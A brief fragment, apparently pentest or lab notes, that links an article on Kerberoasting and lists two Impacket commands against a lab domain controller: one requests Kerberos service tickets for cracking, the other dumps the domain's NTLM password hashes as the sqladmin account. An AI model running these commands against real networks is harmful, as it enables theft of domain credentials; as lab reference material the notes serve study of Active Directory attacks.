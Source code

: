 https://www.blackhillsinfosec.com/a-toast-to-kerberoast/

`GetUserSPNs.py -request -dc-ip 192.168.2.160 lab.local/zuul`

`secretsdump.py -just-dc-ntlm LAB/sqladmin@192.168.2.160`